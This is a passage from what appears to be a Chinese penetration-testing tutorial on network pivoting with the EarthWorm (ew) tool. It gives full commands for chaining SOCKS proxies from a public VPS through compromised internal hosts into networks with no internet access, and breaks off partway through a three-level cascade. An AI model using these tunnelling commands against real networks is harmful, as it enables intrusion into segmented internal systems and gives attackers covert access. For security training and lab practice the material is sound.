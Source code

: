 
A主机没有公网IP，也无法访问内网资源。B主机可以访问内网资源，但无法访问外网。



这个操作分为4步，用到lcx_listen和lcx_slave命令：



A. 先上传ew 到左侧公网VPS上，运行下列命令：

ew –s lcx_listen –l 10800 –e 888



说明：该命令意思是在公网VPS添加转接隧道，将10800端口收到的代理请求转交给888端口。



B.上传ew到B主机，并利用ssocksd方式启动999端口的socks代理，命令如下：

ew -s ssocksd -l 999



C.上传ew 到A主机，运行下列命令：

ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.49 -g 999



说明：该命令意思是在A主机上利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来。



D. 返回我们公网VPS的CMD界面下，可以看到已经连接成功了。



现在就可以通过访问公网VPS地址 139.XXX.XX.113:10800来使用在B主机架设的socks5代理。



### 三级网络环境



三级网络环境在实际渗透中用的比较少，也比较复杂，现在我们来一个个的讲解下三级级联的用法。



假设渗透场景：



内网A主机没有公网IP但可以访问外网



B主机不能访问外网但可以被A主机访问、C主机可被B主机访问而且能够访问核心区域。



A.在左侧公网VPS上运行命令，将1080端口收到的代理请求转交给888端口：

ew -s rcsocks -l 1080 -e 888



B.在A主机上运行命令，将公网VPS的888端口和B主机的999端口连接起来：

ew -s lcx_slave -d 139.XXX.XX.113 -e 888 -f 10.48.128.12 -g 999

